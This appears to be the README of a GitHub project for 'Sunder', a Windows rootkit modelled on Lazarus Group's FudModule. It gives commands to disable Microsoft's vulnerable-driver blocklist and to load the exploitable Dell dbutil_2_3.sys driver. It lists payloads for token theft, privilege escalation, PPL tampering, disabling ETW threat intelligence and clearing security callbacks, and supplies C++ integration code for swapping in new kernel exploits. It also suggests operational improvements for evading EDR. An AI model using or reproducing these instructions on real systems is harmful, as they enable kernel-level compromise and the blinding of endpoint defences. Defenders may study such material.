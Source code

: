 # Sunder
Windows rootkit modeled after Lazarus Group's [FudModule rootkit](https://decoded.avast.io/janvojtesek/lazarus-and-the-fudmodule-rootkit-beyond-byovd-with-an-admin-to-kernel-zero-day/). Reference my [theHandler project]() for an example of the appid.sys driver exploit, which was utilized by Lazarus Group FudModule rootkit (and not blocked as of October 2024). 

*theHandler is coming soon. I will update the link to it once released.*

This rootkit is designed to work with various kernel exploits. This allows you to change the vulnerable driver utilized to gain kernel read and write primitives. Updating the vulnerable driver is necessary to evade Microsoft's [blocked driver list](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/design/microsoft-recommended-driver-block-rules).

![PPL editing payload](images/ppl.PNG)

The vulnerable driver in this GitHub repository is Dell's dbutil_2_3.sys driver, since it is a simple vulnerability and therefore makes the rootkit-specific code easier to read. This driver **is blocked** by Microsoft. Execute the following command and reboot to allow loading blocked drivers:
```
bcdedit /debug on
powershell -c Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\CI\Config\ -Name VulnerableDriverBlocklistEnable 0
shutdown -r
```

Sunder contains the following payloads ([See the images directory for screenshots](images)):
- Token Stealing - Steal a token from any process (spawns cmd.exe, but can be modified to spawn any process)
- Token Escalation - Add permissions to a given process 
- ACL Editing - Opens handle to target process despite integrity or PPL protection level
	- *Note: Offsets for ACL editing have only been tested against winlogon.exe, and may need updated for other target processes*
- Enable/Disable PPL - Tamper with process PPL protection levels 
- Disable ETWti - Disable ETW threat intelligence (kernel-mode hooking)
- Clear process callbacks - Clear all process creation notification callbacks
- Clear thread callbacks - Clear all thread creation notification callbacks
- Clear DLL callbacks - Clear all DLL image load notification callbacks 

## Requirements
The vulnerable [dbutil_2_3.sys](dbutil_2_3.sys) driver must be running on the target. Download it from this repository, then install it:
```
# Set the binPath to the full filepath to dbutil_2_3.sys
sc create dellserv binPath= C:\dbutil_2_3.sys type= kernel
sc start dellserv
```

*Note: This driver is in Microsoft's block list. Installation is blocked on many systems. Update the driver and kernel exploit to execute on systems that employ driver block lists.*

Run this exploit from medium integrity or higher. You must be in high integrity to install the vulnerable driver. 

## Usage
Build the exploit in Visual Studio (x64, Release). Execute sunder.exe. You will receive a prompt asking which payload to run; enter a number to execute a post-exploitation payload. 

## Stability
The dbutil_2_3.sys exploit (CVE-2021-21551) is highly stable. Post-exploitation functionality uses hardcoded offsets for a single version of Windows OS; therefore, executing the rootkit on untested OS versions will likely result in a Blue Screen of Death (BSOD).

The rootkit has been tested on the following Windows versions:
- Windows 10 Pro build 19045
- Windows 11 Enterprise build 22621
- Windows 11 Enterprise build 26100 

## Improvements and Additions
The following are ways the rootkit can (and should) be improved for operational use. I will not be updating the public release to include these features.

### Improvements
- Include offsets for various Windows OS versions
- Create the Kernel driver service from rootkit code
- Clean up driver and service on exit
- Convert interactive post-ex prompts into commandline arguments
- Encrypt or hash plaintext strings

### Feature Additions
- Disable object/registry callbacks
- Disable ETW providers
- Disable minifilter drivers
- Suspend EDR threads 

## Updating the Exploit
The following sections describe how to utilize the rootkit with newer kernel exploits.

### Background Information
Understanding the following structs and function prototypes is necesssary for proper usage of this library.

EXP_OUT is a struct containing necessary values for successful post-exploitation. This struct allows post-exploitation to avoid making syscalls. Avoiding syscalls is vital as some exploits leave the running process in a sensitive state that will Blue Screen of Death (BSOD) from syscalls (such as when corrupting PreviousMode). 

The EXP_OUT struct is as follows:
```
// Define struct passed in from exploit (Add additional parameters if necessary)
//	Set any addresses resolved with GetProcAddress in advance, to avoid BSOD in PreviousMode exploits
typedef struct _EXP_OUT
{
	LPVOID readprimitive;					//	Cast this to _readqword in rootk()
	LPVOID writeprimitive;					//	Cast this to _writeqword in rootk()
	DWORD myProcessId;						// To avoid using GetCurrentProcessId() in post-ex code
	HANDLE vulnDriver;						// For use in cases where IOCTLs must be called for every read/write 
	ULONGLONG systemEprocess;					// To iterate through EPROCESS list
	ULONGLONG KeInsertQueueApc;					// To find set ETWti bit and disable it
	ULONGLONG PsSetCreateProcessNotifyRoutine;	// To clear process callbacks
	ULONGLONG PsSetCreateThreadNotifyRoutine;	// To clear thread callbacks
	ULONGLONG PsSetLoadImageNotifyRoutine;		// To clear DLL (image load) callbacks
} EXP_OUT, * PEXP_OUT;
```

Read and Write Primitives are vital for this library's post-exploitation features. Executing code in the modern Windows kernel is difficult due to mitigations, and may result in higher chance of BSOD. 'Read primitives' read a value from an arbitrary address. 'Write primitives' write an arbitrary value at an arbitrary address.

This library uses the following prototypes for read and write primitive functions:
```
// Define read and write primitive functions (hDriver can be NULL in some exploits)
typedef ULONGLONG(__fastcall* _readqword)(
	HANDLE hDriver,
	ULONGLONG readwhere
	);
typedef void(__fastcall* _writeqword)(
	HANDLE hDriver,
	ULONGLONG writewhere,
	ULONGLONG writewhat
	);
```

### Adding the Code
Include the 'rktools.cpp' and 'rktools.h' files in your C++ exploit project.
```
#include "rktools.h"
```

Instantiate the EXP_OUT struct (naming 'rootStruct' in this example):
```
	PEXP_OUT rootStruct = new EXP_OUT;
```

Set read and write primitive function pointers. This library is designed for functions that read/write 64-bit values (QWORDs) from/to 64-bit addresses.
```
	rootStruct->readprimitive  = (LPVOID)readqword;
	rootStruct->writeprimitive = (LPVOID)writeqword;
```

Obtain the process ID (PID) of the current process:
```
	DWORD myPid = GetCurrentProcessId();
	rootStruct->myProcessId = myPid;
```

Use your exploit's read primitive to obtain values of the following kernel-mode functions. This step is OPTIONAL, but necessary to leverage full post-exploitation functionality. *See [this code](Sunder/Sunder/Sunder.cpp) from lines 149-201 for an example of how to find the necessary kernel-mode functions.*
```
	rootStruct->KeInsertQueueApc				= KeInsertQueueApcAddr;
	rootStruct->PsSetCreateProcessNotifyRoutine	= ProcCallbackAddr;
	rootStruct->PsSetCreateThreadNotifyRoutine	= ThreadCallbackAddr;
	rootStruct->PsSetLoadImageNotifyRoutine		= DllCallbackAddr;
```

Populate rootStruct with the vulnerable kernel driver's handle. This is only required in certain cases, such as when an IOCTL must be called for every use of read/write primitives.
```
	rootStruct->vulnDriver = hDriver;		// Pass vulnerable driver's handle to struct
```

Identify the kernel-mode address of an EPROCESS object (preferably the SYSTEM process). This will enable post-exploitation to iterate through kernel EPROCESS structures.
``` 
	rootStruct->systemEprocess = iterProc;	// Set SYSTEM EPROCESS pointer
```

Finally, call the rootkit. This will open an interactive menu to execute various kernel-mode payloads.
```
    	rootk(rootStruct);					// Call rootkit functionality for post-exploitation
```


